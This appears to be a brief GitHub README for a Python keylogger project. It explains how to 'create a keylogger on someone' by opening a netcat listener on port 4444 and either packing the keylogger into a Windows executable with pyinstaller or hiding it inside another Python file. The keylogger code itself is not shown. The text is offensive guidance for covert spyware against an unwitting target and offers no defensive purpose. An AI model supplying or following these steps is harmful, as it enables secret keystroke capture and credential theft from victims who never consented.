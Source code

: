 # keyLogger

To create a keylogger on someone

create a netcat listener
```
nc -lnvp 4444
```
and depends on how you do it

either turn the keylogger python into a EXE file (for windows)

```
pyinstaller --onefile keylogger.py.
```

Or just embedd it in a python code file in a way which is hidden (well obviously)

